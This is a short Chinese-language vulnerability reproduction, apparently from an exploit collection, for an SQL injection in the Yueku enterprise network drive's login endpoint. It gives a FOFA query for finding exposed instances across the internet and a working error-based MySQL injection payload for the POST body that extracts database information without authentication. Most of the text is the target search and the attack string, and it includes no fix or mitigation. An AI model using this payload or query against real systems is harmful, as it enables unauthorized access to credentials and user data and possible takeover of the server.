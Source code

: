 # 悦库企业网盘SQL注入漏洞

### 1.漏洞描述

悦库企业网盘 登录框接口/user/login/.html 处存在SQL注入漏洞,未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 2.fofa语法

```xml
app="悦库-悦库网盘"
```

### 3.漏洞复现

抓包后修改方法为POST，添加请求体

```xml
account=') AND GTID_SUBSET(CONCAT(0x7e,(SELECT (ELT(5597=5597,user()))),0x7e),5597)-- HZLK
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719398015088-c0e341f7-63ec-4d6a-a120-f53ad20cad18.png)
